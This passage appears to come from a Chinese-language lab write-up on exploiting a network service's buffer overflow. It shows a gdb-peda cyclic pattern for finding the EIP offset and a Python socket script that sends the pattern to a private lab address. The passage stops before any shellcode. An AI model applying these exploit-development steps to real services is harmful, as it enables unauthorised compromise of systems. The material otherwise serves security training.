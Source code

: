     ![image.png](image%20114.png)
    
    可以看到`ESP` 和`EIP`已经被覆盖掉了，所以存在缓冲区溢出漏洞
    

## 定位EIP

1. 存在缓冲区溢出漏洞，那我们就要定为`EIP` 
2. 使用`gdb`生成`500`个唯一字符
    
    ```c
    gdb-peda$ pattern create 500
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
    ```
    
3. 修改测试文件
    
    ```c
    cat buffer.py 
    import socket
    
    a = 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A' + '\x00'
    s = socket.socket()
    s.connect(('192.168.111.154',1985))
    s.send(a.encode('utf-8'))
    s.close()
    ```
    